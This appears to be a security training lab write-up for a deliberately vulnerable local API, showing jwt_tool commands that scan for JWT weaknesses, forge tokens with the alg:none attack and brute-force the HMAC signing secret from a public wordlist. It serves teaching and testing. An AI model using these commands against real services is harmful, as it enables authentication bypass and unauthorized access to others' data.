

# Insecure API

## API2:2023 Broken Authentication

We try to forge a JWTs using several well known attack types (using the playbook mode of the JWT_Tool):

Login using http://localhost:9090/api/v1/users/login
and specify the credentials `bruce.wayne@example.com / wayne` to log in and grab the returned JWT

```shell
export JWT=<the JWT you just grabbed>
```

Now try this playbook attack with the JWT you grabbed to find any vulnerabilities at http://localhost:9090/api/v1/partner:

```shell
./jwt_tool.py -t http://localhost:9090/api/v1/partner -rh "Authorization: Bearer $JWT" -cv "Here is your data for partner bruce.wayne@example.com (Bruce Wayne)" -M pb -np
```

After performing the playbook you see which attacks seemed to be successful.
Then you might try a specific attack type separately, like the exploit specifying the `none` signature algorithm as `alg:none`:

```shell
./jwt_tool.py -t http://localhost:9090/api/v1/partner -rh "Authorization: Bearer $JWT" -cv "Here is your data for partner bruce.wayne@example.com (Bruce Wayne)" -X a -np
```

In our case this is successful:



Finally try to brute force the JWT to find out the secret for signing a JWT using the symmetric HMAC signature algorithm
`jwt_tool.py $JWT -C -d jwt.secrets.list`

The secrets list was just grabbed from https://github.com/wallarm/jwt-secrets.

